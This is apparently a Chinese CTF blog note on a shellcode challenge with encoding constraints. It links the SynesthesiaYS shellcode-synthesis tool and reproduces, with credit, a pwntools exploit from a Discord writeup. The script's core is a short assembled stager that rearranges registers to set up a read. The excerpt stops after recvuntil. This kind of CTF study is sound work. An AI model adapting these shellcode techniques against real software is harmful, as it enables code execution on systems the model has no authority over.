日常不想打 shellcode 题，试了一下，没搞出来，遂放弃，看了 discord 上的 writeup，用到的这些指令都可以 mark 一下    

此外，找到一个轮子 [SynesthesiaYS](https://github.com/RolfRolles/SynesthesiaYS) 可以自动化求解满足一定 encoding 约束的 shellcode，感觉之后可以试试，虽然感觉可用性可能不太高    
以及从轮子的 [slides](https://static1.squarespace.com/static/53a64cc2e4b0c63fc41a3320/t/582238c9e6f2e15bc0f95323/1478637785754/Synesthesia-SlidesWithNotes.pdf) 找到了一个好玩东西    

![alt_text](/assets/img/uploads/set_rax_to_zero.png)

以下 exp credit to ElChals@Discord ，**如有侵权，请通过[邮箱](rosaxinyu@gmail.com)联系我删除**    

### exp

```py
from pwn import*
context(arch='amd64',os='linux',log_level='debug')
p=process("./chal")
shellcode = asm('''
mov  eax, edx 
push rdi
pop rsi
leave
mov dl,0x83
clc
mov ch,0x16                
lea edi,[rax]     
''')

# gdb.attach(p,'''
# b *0x0401440
# ''')
# pause()
# 调用到 shellcode 的时候，rdx 为 0 rsi 为0 rdi 和 rax 相等为我们 shellcode 地址
# 需求：rax rdi 清零，rsi 指向 shellcode 地址加减偏移，rdx 大于等于读入长度

p.recvuntil("your synthetic shell\n")
```